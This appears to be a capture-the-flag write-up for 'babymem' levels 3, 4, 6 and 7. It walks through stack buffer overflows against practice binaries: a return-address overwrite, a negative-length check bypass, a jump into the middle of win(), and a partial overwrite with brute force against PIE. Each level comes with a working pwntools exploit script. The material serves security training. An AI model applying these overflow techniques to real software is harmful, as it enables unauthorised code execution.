 ## Level 3

Our goal is to control PC register and execute `win()` function. So we need to figure out:

1. how many bytes should we overwrite (buffer size + old rbp)
2. the address of win()

Use radare2 to disassemble the ELF executable. According to the amd64 syscall table, we know that the buffer size (rsi) is 0x30 = 48. So we need to cover 48 + 8 (old rbp) + 8 (return address) = 64 bytes in total. Besides, the address of win() is 0x401d9e. 

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L3-test2-3.PNG?raw=true)

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L3-test2-2.PNG?raw=true)

So the payload is

```python
import pwn 
proc = pwn.process("/babymem_level3_testing2")
proc.sendline("64")
ret_addr = pwn.p64(0x401d9e, endian='little')
payload = b"a" * 56 + ret_addr
proc.sendline(payload)
proc.read(4096)
```

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L3-test2-1.PNG?raw=true)



## Level 4

In this level, we can input a negative number to bypass the check at 0x40218c (i.e., cmp instruction).

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L4-test1-2.PNG?raw=true)

Again, find out the address of win() function.

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L4-test1-3.PNG?raw=true)

And the size of the buffer. 

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L4-test1-4.PNG?raw=true)

Send the payload to get the flag.

 ```python
import pwn 
pwn.contex(arch='amd64')
proc = pwn.process("./babymem_level4_testing1")
win_addr = 0x00402040
payload = b"a" * (0x60 + 8) + pwn.p64(win_addr, endian='little')
proc.read(4096)
proc.sendline("-999")
proc.read(4096)
proc.sendline(payload)
proc.read(4096)
 ```

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L4-test1-1.PNG?raw=true)



## Level 6

The win() function needs a certain argument (0x1337). There is a trick to bypass it: jumps to the instruction which prepares to open /flag file. 

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L6-test1-2.PNG?raw=true)

So we overwrite the return address as 0x00401c96 instead of the start of win(). 

```python
import pwn 
pwn.contex(arch='amd64')
proc = pwn.process("./babymem_level6_testing1")
win_addr = 0x00401c96
payload = b"a" * (0x60 + 8) + pwn.p64(win_addr, endian='little')
proc.read(4096)
proc.sendline("1000")
proc.read(4096)
proc.sendline(payload)
proc.read(4096)
```

Here is the flag. 

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L6-test1-1.PNG?raw=true)



## Level 7

In this level, PIE (Position Independent Executable) is enabled, which means we don't know the exact address of our target. However, since the program is aligned on a 4 KB boundary, we can just overwrite the offset. So let's use objdump to find out the related address and buffer size: original return address at 0x16e0, target return address at 0x147d and buffer size is 0x90.  

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L7-test2-3.PNG?raw=true)

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L7-test2-2.PNG?raw=true)

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L7-test2-4.PNG?raw=true)

As I mentioned above, the program is aligned to a 4 KB (0x1000) alignment, which means the last 3 bits are fixed. So the return address should be overwritten as follows. The symbol "-" means do not change. We can use brute-force method to solve the third nibble (the symbol "?"). For example, try \x24 for several times, and we may land on the correct address. 

|      | 15   | 14   | 13   | 12   | 11   | 10   | 9    | 8    | 7    | 6    | 5    | 4    | 3    | 2    | 1    | 0    |
| ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- |
| 0x   | -    | -    | -    | -    | -    | -    | -    | -    | -    | -    | -    | -    | ?    | 4    | 7    | d    |

So the payload is:

```python
import pwn 
pwn.context(arch='amd64')
proc = pwn.process("./babymem_level7_testing2")
payload = b"a" * (0x90 + 8) + b"\x7d\x24"        # notice the little-endian style
proc.read(); proc.sendline("154"); proc.read(); proc.sendline(payload); proc.read(); 
```

Here is the flag. 

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L7-test2-1.PNG?raw=true)
